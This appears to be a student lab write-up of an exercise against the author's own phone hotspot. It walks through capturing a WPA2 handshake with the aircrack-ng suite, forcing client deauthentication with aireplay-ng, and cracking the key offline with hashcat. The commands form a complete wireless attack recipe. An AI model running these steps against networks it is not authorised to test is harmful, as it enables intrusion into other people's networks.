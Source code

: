 I tried to do the exercise with my mac and phone only. But seems like my mac can't capture the handshake. So I used an ubuntu to monitor traffic and capture the WPA2 handshake, my mac as something that tries to connect to my phone's hubspot (access point).
I used aircrack for the packet captures and finding the handshake. Used wireshark to check if I have found the handshake and then used hashcat to find the password used in the connection.
1) I downloaded aircrack-ng
   `sudo apt install aircrack-ng`
2) Then checked for what can cause problems with aircrack 
   `sudo airmon-ng check wlo1`
3) Started airmon-ng which monitored the traffic through wlo1 interface
   `sudo airmon-ng start wlo1`
4) Found my hotspot with `sudo airodump-ng wlo1mon`
   ` D6:F4:9B:67:C0:1F  -38       11        0    0  11  360   WPA2 CCMP   PSK  G6_7099`
5) Then I started to capture packets
   `sudo airodump-ng -c 11 --bssid D6:F4:9B:67:C0:1F -w capture wlo1mon`
6) I forced a re-authentication with
   `sudo aireplay-ng -0 10 -a D6:F4:9B:67:C0:1F wlo1mon`
7) stopped the capture and checked the pcap file in wireshark with filter `eapol`, I saw some packets which means I have got the handshake.
8) Using `hcxpcapngtool -o handshake.22000 capture-02.cap` I have converted it to hashcat 22000 format.
9) Ran hashcat with a custom password file `hashcat -m 22000 handshake.22000 passwordsWIFI --force` and found the password.